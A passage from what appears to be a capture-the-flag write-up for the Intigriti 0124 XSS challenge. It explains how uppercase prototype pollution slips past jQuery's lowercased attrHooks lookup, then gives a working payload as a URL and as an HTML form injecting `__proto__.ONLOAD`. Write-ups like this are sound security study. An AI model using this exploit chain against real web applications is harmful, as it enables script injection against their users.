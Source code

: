 This is where it took me much time to figure out the solution https://gist.github.com/Sudistark/d869e505c8ff45c3bb96612bcb2c953b even tried asking Mizu if I was on the right path or not

He told me yeah it should work as this is the unintended solution which everyone was using :p,as I knew there must be something I am still missing I looked at it again and again to fix it but still had no success.
I was looking for a way to make hooks undefined,which didn't looked possible as the polluted property will be available to all the objects.

Next day when I again looked at it, I noticed that:

```js
jQuery.attrHooks[ name.toLowerCase() ]
```

They were transforming the polluted property to lowercase before using it, so if for eg pollute a propert `SRCDOC`

```js
Object.prototype.SRCDOC=1337

jQuery.attrHooks["srcdoc"] // undefined as only the SRCDOC exists not srcdoc in the prototype chain
```

Due to the lowercase transformation it was possible to make hooks undefined and reach the sink easily.


https://challenge-0124.intigriti.io/challenge?name=shirley%3Cform%20id=%22search%22%3E%20%3Cinput%20name=%22q%22%20value=%22angular/material-start%22%3E%20%3Cinput%20name=%22__proto__.ONLOAD%22%20value=%22alert()%22/%3E%20%3C/form%3E&search=angular/material-start


Final payload

```html
<form id="search"> 
<input name="q" value="angular/material-start"> 
<input name="__proto__.ONLOAD" value="alert()"/> 
</form>
```

![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/287124f6-67ef-47e9-b347-a095a98f2124)